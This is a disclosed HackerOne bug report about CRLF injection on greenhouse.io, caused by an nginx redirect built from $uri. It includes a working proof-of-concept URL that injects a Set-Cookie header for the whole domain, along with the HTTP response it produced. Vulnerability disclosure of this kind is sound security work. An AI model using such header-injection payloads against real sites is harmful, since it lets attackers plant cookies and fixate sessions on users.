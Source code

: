 # [greenhouse.io] CRLF Injection / Insecure nginx configuration

## Report Details
- **Report ID**: 25275
- **URL**: https://hackerone.com/reports/25275
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2014-08-19T17:45:21.490Z
- **Disclosed**: 2016-11-02T13:27:21.114Z

## Reporter
- **Username**: bobrov
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: greenhouse

## Vulnerability Information
PoC
http://greenhouse.io/%0d%0aSet-Cookie:test=test;domain=.greenhouse.io

HTTP Response:
Location: http://www.greenhouse.io/
Set-Cookie:test=test;domain=.greenhouse.io

Result: 
Creating cookie test=test on .greenhouse.io

$uri or $document_uri is used  in the redirection-URL.

## Attachments
No attachments
